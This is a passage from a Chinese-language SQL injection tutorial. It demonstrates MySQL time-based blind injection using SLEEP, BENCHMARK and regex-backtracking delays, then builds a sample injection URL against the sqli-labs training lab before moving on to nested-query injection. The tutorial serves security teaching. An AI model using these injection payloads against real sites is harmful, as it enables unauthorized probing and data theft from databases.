 在 MySQL 常用的延时注入方法中，比较实用的有以下 3 种。

（1）**SLEEP(duration)**：该函数用于休眠，起到延时操作的作用，其参数以秒为单位。

```java
mysql> select sleep(5);
+----------+
| sleep(5) |
+----------+
|        0 |
+----------+
1 row in set (5.00 sec)
```

（2）**BENCHMARK(count,expr)**：重复计算 expr 表达式 count 次。

```java
mysql> select benchmark(10000000,sha(1));
+----------------------------+
| benchmark(10000000,sha(1)) |
+----------------------------+
|                          0 |
+----------------------------+
1 row in set (2.72 sec)
```

（3）**REPEAT(str,count)**：返回字符串 str 重复 count 次后的字符串。

```java
mysql> select rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',50),'b');
+-------------------------------------------------------------+
| rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',50),'b') |
+-------------------------------------------------------------+
|                                                           0 |
+-------------------------------------------------------------+
1 row in set (5.92 sec)
```

我们以 sqli-labs 第 2 题为例构造请求：

```sql
http://localhost/Less-2/?id=1 and sleep(5)--+
```

在 Chrome 浏览器的 Network 标签内可以看到该请求刚好处时 5 秒钟，说明确实存在漏洞。

<Image alt="Drawing 12.png" src="https://s0.lgstatic.com/i/image2/M01/03/A4/CgpVE1_gPWaAOKOTAABkBqvFPw0394.png"/>  
图 13：Chrome 标签内展示

#### 内联/嵌套查询注入

使用内联查询来检索数据，本质上是嵌入在另一个查询中的查询，例如：

```sql
SELECT (SELECT password from users) from product;
```

以 sqli-labs 第 2 题为例，结合前面介绍的联合查询来构造请求：
